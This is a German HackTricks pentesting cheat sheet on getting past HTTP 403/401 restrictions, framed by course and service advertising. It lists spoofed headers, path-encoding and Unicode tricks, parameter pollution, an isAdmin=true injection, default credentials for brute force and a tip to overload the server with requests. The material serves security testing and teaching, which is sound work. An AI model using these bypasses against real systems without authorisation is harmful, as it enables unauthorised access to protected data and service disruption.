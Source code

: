 # 403 & 401 Umgehungen

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall aus mit 20+ Tools & Funktionen durch, die von der Aufklärung bis zum Bericht reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- & Exploit-Module, um ihnen etwas Zeit zu geben, tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/" %}

## Fuzzing von HTTP-Verben/Methoden

Versuchen Sie, **verschiedene Verben** zu verwenden, um auf die Datei zuzugreifen: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

* Überprüfen Sie die Antwortheader, möglicherweise werden einige Informationen angezeigt. Zum Beispiel bedeutet eine **200-Antwort** auf **HEAD** mit `Content-Length: 55`, dass das **HEAD-Verb auf die Informationen zugreifen kann**. Sie müssen jedoch immer noch einen Weg finden, um diese Informationen zu extrahieren.
* Die Verwendung eines HTTP-Headers wie `X-HTTP-Method-Override: PUT` kann das verwendete Verb überschreiben.
* Verwenden Sie das **`TRACE`**-Verb und wenn Sie sehr viel Glück haben, können Sie möglicherweise auch die **von Zwischenproxys hinzugefügten Header** in der Antwort sehen, die nützlich sein könnten.

## Fuzzing von HTTP-Headern

* Ändern Sie den Host-Header in einen beliebigen Wert ([der hier funktioniert hat](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31))
* Versuchen Sie, [**andere User Agents**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt) zu verwenden, um auf die Ressource zuzugreifen.
*   **Fuzz HTTP-Header**: Versuchen Sie, HTTP-Proxy-**Header**, HTTP-Authentifizierung Basic und NTLM-Brute-Force (nur mit einigen Kombinationen) und andere Techniken zu verwenden. Hierfür habe ich das Tool [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass) erstellt.

* `X-Originating-IP: 127.0.0.1`
* `X-Forwarded-For: 127.0.0.1`
* `X-Forwarded: 127.0.0.1`
* `Forwarded-For: 127.0.0.1`
* `X-Remote-IP: 127.0.0.1`
* `X-Remote-Addr: 127.0.0.1`
* `X-ProxyUser-Ip: 127.0.0.1`
* `X-Original-URL: 127.0.0.1`
* `Client-IP: 127.0.0.1`
* `True-Client-IP: 127.0.0.1`
* `Cluster-Client-IP: 127.0.0.1`
* `X-ProxyUser-Ip: 127.0.0.1`
* `Host: localhost`

Wenn der **Pfad geschützt ist**, können Sie versuchen, den Pfadschutz mit diesen anderen Headern zu umgehen:

* `X-Original-URL: /admin/console`
* `X-Rewrite-URL: /admin/console`
* Wenn die Seite **hinter einem Proxy liegt**, ist es möglicherweise der Proxy, der Sie daran hindert, auf die privaten Informationen zuzugreifen. Versuchen Sie, [**HTTP-Request-Smuggling**](../../pentesting-web/http-request-smuggling/) zu missbrauchen **oder** [**hop-by-hop-Header**](../../pentesting-web/abusing-hop-by-hop-headers.md)**.**
* Fuzz [**spezielle HTTP-Header**](special-http-headers.md), um nach unterschiedlichen Antworten zu suchen.
* Fuzzen Sie spezielle HTTP-Header beim Fuzzing von **HTTP-Methoden**.
* Entfernen Sie den Host-Header und möglicherweise können Sie den Schutz umgehen.

## Pfad-Fuzzing

Wenn _/Pfad_ blockiert ist:

* Versuchen Sie, _**/**_**%2e/Pfad \_(wenn der Zugriff durch einen Proxy blockiert ist, könnte dies den Schutz umgehen). Versuchen Sie auch**\_\*\* /%252e\*\*/Pfad (doppelte URL-Codierung)
* Versuchen Sie **Unicode-Bypass**: _/**%ef%bc%8f**Pfad_ (Die URL-codierten Zeichen sind wie "/"), sodass, wenn sie zurückcodiert werden, es _//Pfad_ sein wird und möglicherweise haben Sie bereits die _/Pfad_-Namensprüfung umgangen
* **Andere Pfadumgehungen**:
* site.com/geheim –> HTTP 403 Verboten
* site.com/GEHEIM –> HTTP 200 OK
* site.com/geheim/ –> HTTP 200 OK
* site.com/geheim/. –> HTTP 200 OK
* site.com//geheim// –> HTTP 200 OK
* site.com/./geheim/.. –> HTTP 200 OK
* site.com/;/geheim –> HTTP 200 OK
* site.com/.;/geheim –> HTTP 200 OK
* site.com//;//geheim –> HTTP 200 OK
* site.com/geheim.json –> HTTP 200 OK (ruby)
* Verwenden Sie all [**diese Liste**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) in den folgenden Situationen:
* /FUZZgeheim
* /FUZZ/geheim
* /geheimFUZZ
* **Andere API-Umgehungen:**
* /v3/Benutzer\_Daten/1234 --> 403 Verboten
* /v1/Benutzer\_Daten/1234 --> 200 OK
* {“id”:111} --> 401 Nicht autorisiert
* {“id”:\[111]} --> 200 OK
* {“id”:111} --> 401 Nicht autorisiert
* {“id”:{“id”:111\}} --> 200 OK
* {"Benutzer\_ID":"\<legit\_id>","Benutzer\_ID":"\<Opfer\_ID>"} (JSON-Parameter-Pollution)
* Benutzer\_ID=ANGREIFER\_ID\&Benutzer\_ID=OPFER\_ID (Parameter-Pollution)
## **Parametermanipulation**

* Ändern Sie den **Parametewert**: Von **`id=123` --> `id=124`**
* Fügen Sie zusätzliche Parameter zur URL hinzu: `?`**`id=124` —-> `id=124&isAdmin=true`**
* Entfernen Sie die Parameter
* Ordnen Sie die Parameter neu an
* Verwenden Sie Sonderzeichen.
* Führen Sie Grenzwerttests in den Parametern durch - geben Sie Werte wie _-234_ oder _0_ oder _99999999_ an (nur einige Beispiellwerte).

## **Protokollversion**

Wenn Sie HTTP/1.1 verwenden, **versuchen Sie, 1.0 zu verwenden** oder testen Sie sogar, ob es **2.0 unterstützt**.

## **Andere Umgehungen**

* Holen Sie sich die **IP** oder **CNAME** der Domain und versuchen Sie, **direkt Kontakt aufzunehmen**.
* Versuchen Sie, den Server zu **überlasten**, indem Sie häufige GET-Anfragen senden ([Es hat bei diesem Typen mit Facebook funktioniert](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)).
* **Ändern Sie das Protokoll**: von http zu https oder von https zu http
* Gehen Sie zu [**https://archive.org/web/**](https://archive.org/web/) und prüfen Sie, ob diese Datei in der Vergangenheit **weltweit zugänglich** war.

## **Brute Force**

* **Erraten Sie das Passwort**: Testen Sie die folgenden gängigen Anmeldeinformationen. Wissen Sie etwas über das Opfer? Oder den Namen der CTF-Herausforderung?
* [**Brute Force**](../../generic-methodologies-and-resources/brute-force.md#http-brute)**:** Versuchen Sie grundlegende, Digest- und NTLM-Authentifizierung.

{% code title="Gängige Anmeldeinformationen" %}
```
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
{% endcode %}

## Automatische Tools

* [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)
* [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
* [https://github.com/gotr00t0day/forbiddenpass](https://github.com/gotr00t0day/forbiddenpass)
* [Burp-Erweiterung - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
* [Forbidden Buster](https://github.com/Sn1r/Forbidden-Buster)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Sofort einsatzbereite Einrichtung für Schwachstellenbewertung und Penetrationstests**. Führen Sie einen vollständigen Pentest von überall aus mit 20+ Tools und Funktionen durch, die von der Aufklärung bis zum Bericht reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- und Exploit-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
